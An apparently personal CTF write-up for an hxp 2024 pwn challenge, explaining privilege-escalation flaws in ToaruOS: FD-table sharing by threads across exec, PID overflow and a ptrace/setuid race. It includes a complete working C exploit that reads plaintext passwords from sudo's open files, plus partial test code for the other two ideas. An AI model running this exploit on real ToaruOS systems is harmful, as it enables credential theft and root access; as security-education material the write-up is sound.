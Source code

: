 ```yaml
---
description: I like cheese with lots of holes. 🪤🫕🐭
categories: ["ctf", "hxp 2024"]
tags: ["pwn"]
media_subpath: "/assets/posts/2024/hxp/ser-szwajcarski"
---
```


We are given an image of the latest release of the [ToaruOS project](https://github.com/klange/toaruos)
and access to a shell as the `local` user. The goal is to read `/flag.txt` owned by root.

There are multiple vulnerabilities in the project, but the one I used resides in the way the OS handles
threads inside processes.

The `pthread_create` implementation calls `sys_clone`:
![](01.png)

`sys_clone` will call `clone` from `process.c`:
![](02.png)

This function will call `spawn_process` with the last argument (flags) set to 1.
This is the equivalent of `PROC_REUSE_FDS`, which, when set, will simply reuse the 
FD table for the new thread (process):
![](03.png)

The problem is that when `exec`-ing a new image, the threads created are not stopped.
This means that you can have a thread inside a new process and access every FD from it.
The thread will have a different address space, of course, but having access to the FD list
is enough to achieve privilege escalation.

The `sudo` binary has the `setuid` bit set (similar to Linux). It uses a custom library
called `libauth` to check the credentials, which opens `/etc/master.passwd`. The credentials 
are stored in plaintext.

Having access to the FD list of the `sudo` process, we can bruteforce the FDs to read the passwords.

## Building an app for ToaruOS

The OS uses a custom toolchain based on GCC and there are numerous ways to build an app for it.
I used the official documentation to build the entire OS, and added a custom application in the `apps` folder.
The Makefile builds everything, including the apps. The readme on GitHub provides some snippets to build the OS
inside Docker. After the app is built, I copied it alongside `flag.txt` in the Docker image provided by the CTF.

On the remote, I used the `fetch` binary, which comes preinstalled with the OS and is similar to `curl`.

## Final exploit

```c
#include <unistd.h>
#include <stdio.h>
#include <sys/ptrace.h>
#include <unistd.h>
#include <sys/wait.h>
#include <stdlib.h>
#include <fcntl.h>
#include <sys/signal_defs.h>
#include <sys/uregs.h>
#include <pthread.h>
#include <errno.h>

void* threadHandler(void* _unused) {
  for (;;) {
    usleep(100);
    for (int fd = 3; fd < 7; fd += 1) {
      char content[1024] = { 0 };
      int bytesRead = read(fd, content, sizeof content);
      if (bytesRead <= 0) {
        continue;
      }
      printf("%s\n", content);
    }
  }

  return NULL;
}

void threadThing() {
  pid_t pid = fork();

  if (pid < 0) {
    printf("Error forking: %d (%s)\n", errno, strerror(errno));
    exit(-1);
  }

  int isChild = pid == 0;

  if (isChild) {
    pthread_t thread;
    pthread_create(&thread, NULL, threadHandler, NULL);
    char* args[] = { "/bin/sudo", "-s", NULL };
    execvp(args[0], args);
  } else {
    waitpid(pid, NULL, 0);
  }
}

int main() {
  threadThing();
}
```

After multiple runs, the exploits successfully dumps the password list. The `local` user is already in `sudoers`,
so we can get a shell with `sudo -s` and the password of the `local` user.

## Other exploits considered

### PID overflow

The PID is stored in a variable of type `int` and is not reused when a process exists.
![](04.png)

If we manage to create enough processes to overflow the variable, we can get a process with PID 0.
This has several implications, for example the `ptrace` handler checks if the tracer is the current process,
but when a process does not have a tracer, the `tracer` field is zero. So, if we have access to a process with PID
0, we can trace (almost) any process:
![](05.png)

However, after creating ~30.000 processes, the instance crashes. Probably there was a memory leak somewhere.
Here is the code I used to test that:
```c
void bruteforcePids() {
    for (int i = 0; i < 100000; i += 1) {
        pid_t pid = fork();
        if (pid < 0) {
            printf("Error forking: %d (%s)\n", errno, strerror(errno));
            exit(-1);
        }

        int isChild = pid == 0;

        if (isChild) {
            exit(0);
        } else {
            if (i % 10000 == 0) {
                printf("%d: %d\n", i, pid);
            }
            waitpid(pid, NULL, 0);
        }
    }
}
```

### Race condition in `ptrace`

When a process is `ptrace`d, the kernel sets 2 flags on the process object while holding a lock:
![](06.png)

When a process is launched, and the file has the `setuid` bit set, the kernel checks if the process
is being `ptrace`d, and in that case ignores the bit:
![](07.png)

The issue is that checking these flags is not done by holding that lock. So you can create a race 
between these 2 functions and have a process with root privileges being `ptrace`d by a normal user.

I didn't end up implementing this, as the race was pretty tight, but it is possible in theory. I only
have bits of the code which sets up the `ptrace`ing:

```c
void child() {
    long status = -1;

    printf("hello from child\n");

    status = ptrace(PTRACE_TRACEME, 0, NULL, NULL);
    if (status != 0) {
        printf("error PTRACE_TRACEME: %ld\n", status);
        exit(0);
    }

    char* args[] = { "/bin/sudo", "-s" };
    status = execvp(args[0], args);

    printf("exec failed: %ld\n", status);
}

void parent(pid_t pid) {
    int childStatus;
    while (1) {
        pid_t result = waitpid(pid, &childStatus, WSTOPPED);

        if (result < 0) {
            continue;
        }

        if (WIFSTOPPED(childStatus) && WSTOPSIG(childStatus) == SIGTRAP) {
            struct URegs regs;
            ptrace(PTRACE_GETREGS, pid, NULL, &regs);
            int event = (childStatus >> 16) & 0xff;
            if (event == PTRACE_EVENT_SYSCALL_ENTER) {
                printf("Got syscall: %ld\n", regs.rax);
            }
            ptrace(PTRACE_CONT, pid, NULL, NULL);
        }
    }
}

void ptraceThing() {
    pid_t pid = fork();
    if (pid < 0) {
        printf("Error forking: %d (%s)\n", errno, strerror(errno));
        exit(-1);
    }

    if (pid != 0) {
        parent(pid);
    } else {
        child();
    }
}
```
